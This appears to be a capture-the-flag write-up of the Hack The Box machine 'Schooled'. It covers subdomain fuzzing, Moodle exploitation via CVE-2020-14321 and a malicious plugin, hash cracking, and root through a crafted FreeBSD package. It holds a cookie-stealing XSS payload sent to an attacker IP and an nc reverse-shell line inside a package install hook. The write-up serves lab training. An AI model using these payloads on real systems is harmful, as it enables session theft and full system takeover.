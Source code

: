 ```yaml
---
published: true
---
```



<img src="https://i.ibb.co/j3QZnXc/Schooled.png" alt="Schooled" border="0">

<h2>Summary :</h2>

<li>1 - Stealing admin's cookie with XSS</li>
<li>2 - Privilege escalation using a CVE</li>
<li>3 - Getting RCE </li>
<li>4 - Database Enumeration</li>
<li>5 - Password cracking</li>
<li>6 - Creating malicious pkg</li>

					
<h2>Scanning phase :</h2> 

```
Not shown: 998 closed ports  
 PORT  STATE SERVICE VERSION  
 22/tcp open ssh   OpenSSH 7.9 (FreeBSD 20200214; protocol 2.0)  
 | ssh-hostkey:   
 |  2048 1d:69:83:78:fc:91:f8:19:c8:75:a7:1e:76:45:05:dc (RSA)  
 |  256 e9:b2:d2:23:9d:cf:0e:63:e0:6d:b9:b1:a6:86:93:38 (ECDSA)  
 |_ 256 7f:51:88:f7:3c:dd:77:5e:ba:25:4d:4c:09:25:ea:1f (ED25519)  
 80/tcp open http  Apache httpd 2.4.46 ((FreeBSD) PHP/7.4.15)  
 |_http-favicon: Unknown favicon MD5: 460AF0375ECB7C08C3AE0B6E0B82D717  
 | http-methods:   
 |  Supported Methods: GET POST OPTIONS HEAD TRACE  
 |_ Potentially risky methods: TRACE  
 |_http-server-header: Apache/2.4.46 (FreeBSD) PHP/7.4.15  
 |_http-title: Schooled - A new kind of educational institute  
 No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
```


We found two open ports (22 - 80).

So what should we do here ? 

1 - Searching for an exploit for the running services.<br>
2 - Check the website and see what we can find.

<h2>Enumeration : </h2>

<img src="https://i.ibb.co/27mV3Yj/web.png" alt="web" border="0">

I start checking the application and nothing works, i only found a contact list.

<img src="https://i.ibb.co/dpLJwkX/contact-list.png" alt="contact-list" border="0">

I saw admissions@schooled.htb i was suspicious so i tried to add it as a subdomain "admissions.schooled.htb" but it didn't work.

Now i will try see if there is another subdomain.

```
ffuf -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://schooled.htb/ -H 'Host: FUZZ.schooled.htb'  
     /'___\ /'___\      /'___\      
     /\ \__/ /\ \__/ __ __ /\ \__/      
     \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\     
     \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/     
      \ \_\  \ \_\ \ \____/ \ \_\      
      \/_/  \/_/  \/___/  \/_/      
     v1.2.0-git  
 ________________________________________________  
  :: Method      : GET  
  :: URL       : http://schooled.htb/  
  :: Wordlist     : FUZZ: /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt  
  :: Header      : Host: FUZZ.schooled.htb  
  :: Follow redirects : false  
  :: Calibration   : false  
  :: Timeout     : 10  
  :: Threads     : 40  
  :: Matcher     : Response status: 200,204,301,302,307,401,403  
 ________________________________________________  
 moodle         [Status: 200, Size: 84, Words: 5, Lines: 2]  
```


<img src="https://c.tenor.com/6xIziN0-uq4AAAAC/boom.gif" alt="boom">

There is our subdomain !

<img src="https://i.ibb.co/12M1hfS/login.png" alt="login" border="0">

Now let's check if we can create an account.

<img src="https://i.ibb.co/4Rx7zrg/Creating-an-account.png" alt="Creating-an-account" border="0">

<img src="https://i.ibb.co/5vqHhYs/account.png" alt="account" border="0">

Creating an account should be in that formula name@student.schooled.htb

<img src="https://i.ibb.co/dDzXFCw/logged-in.png" alt="logged-in" border="0">

After some searching i found this <a href="https://github.com/HoangKien1020/CVE-2020-14321">CVE-2020-14321</a> that is the latest CVE for moodle so it should be for that box 😉

So if you read the CVE you should understood that i should have teacher role to use it.

After a while i found that the only course i can enrol is math course.

<img src="https://i.ibb.co/Gc5wMm9/Math.png" alt="Math" border="0">

I read the announcements and i found this.

<img src="https://i.ibb.co/10C0JM8/hint.png" alt="hint" border="0">

So the teacher interact with the user through moodleNet profile.

The first thing came into my head that i should use xss to steal his cookie, let's try it.

Payload : <img src=x onerror=this.src='http://10.10.x.x:8000/?'+document.cookie;>

<img src="https://i.ibb.co/vzp7m78/xss.png" alt="xss" border="0">

<img src="https://i.ibb.co/1fhZBYL/server.png" alt="server" border="0">

<img src="https://media3.giphy.com/media/l0HlFZ3c4NENSLQRi/200.gif" alt="wow">

<img src="https://i.ibb.co/xCMJcBR/session-hijacking1.png" alt="session-hijacking1" border="0">

Now we are manuel Phillips.

The next thing is enrolling a user, intercept the request, change the role to 1, and ID to our ID. This process will allow us to log in as the user we add. You must pick a user that has a manager role, which in our case is Lianne Carter.

Let's do it ! 

<img src="https://i.ibb.co/NYPwswm/intercept-id.png" alt="intercept-id" border="0">

Now look at the left panel.

<img src="https://i.ibb.co/7KLzTj7/administration.png" alt="administration" border="0">

We have site administration now. 

To get our RCE we have to install a custom plugin but we should edit our role to be able to install plugin.

Go to Users > Define Roles > Manager > Edit to edit our role, intercept the request and change it with the one on github.

<img src="https://i.ibb.co/FW9SZk0/change-role.png" alt="change-role" border="0">

Now we can install plugin.

<img src="https://i.ibb.co/st9NHxc/plugin.png" alt="plugin" border="0">

Just follow <a href="https://github.com/HoangKien1020/Moodle_RCE" >Moodle Rce</a> and trigger the rce at "domain/blocks/rce/lang/en/block_rce.php?cmd=id"

<img src="https://i.ibb.co/dmCmQcB/rce1.png" alt="rce1" border="0">


<h2>Foothold : </h2>

We got our shell !! 

<img src="https://i.ibb.co/swMrynH/shell.png" alt="shell" border="0">

After some enumeration i found database configuration file.

<img src="https://i.ibb.co/DYGB1rL/DB.png" alt="DB" border="0">

When i tried to use mysql the OS didn't find it, so i looked for it in /usr/local/bin and i found it, let's get the creds ! 

<img src="https://i.ibb.co/V2r0wfH/creds.png" alt="creds" border="0">

Now let's crack the hash.

<img src="https://i.ibb.co/ZGpsTWz/crack.png" alt="crack" border="0">

<h2>User Flag : </h2>

Jamies password = !QAZ2wsx

Let's grab our SSH.


<img src="https://i.ibb.co/tm4KHD3/sssh1.png" alt="sssh1" border="0">

Privilege escalation : 

After using sudo -l, we can install pkg with nopasswd.

<img src="https://i.ibb.co/ZWKgMRb/sudo.png" alt="sudo" border="0">

I found this refernce to create a pkg http://lastsummer.de/creating-custom-packages-on-freebsd/ 

Script for getting root :

```
 #!/bin/sh  
 STAGEDIR=/tmp/package  
 rm -rf ${STAGEDIR}  
 mkdir -p ${STAGEDIR}  
 cat >> ${STAGEDIR}/+PRE_INSTALL <<EOF  
 echo “Resetting root shell”  
 rm /tmp/a;mkfifo /tmp/a;cat /tmp/a|/bin/sh -i 2>&1|nc 10.10.x.x 9080 >/tmp/a  
 EOF  
 cat >> ${STAGEDIR}/+POST_INSTALL <<EOF  
 echo “Registering root shell”  
 pw usermod -n root -s /bin/sh  
 EOF  
 cat >> ${STAGEDIR}/+MANIFEST <<EOF  
 name: mypackage  
 version: “1.0_5”  
 origin: sysutils/mypackage  
 comment: “automates stuff”  
 desc: “automates tasks which can also be undone later”  
 maintainer: john@doe.it  
 www: https://doe.it  
 prefix: /  
 EOF  
 pkg create -m ${STAGEDIR}/ -r ${STAGEDIR}/ -o .  
```

This script will create .txz file.

<img src="https://i.ibb.co/qmNcZwz/txs.png" alt="txs" border="0">

<h2>Root flag : </h2>

1 - Setup a listner on your machine <br>
2 - use this command  "sudo pkg install --no-repo-update *.txz"

<img src="https://i.ibb.co/LpnvwFY/root.png" alt="root" border="0">

<img src="https://c.tenor.com/J4GjjwnXX8QAAAAd/scarface-tony-montana.gif" alt="montana">
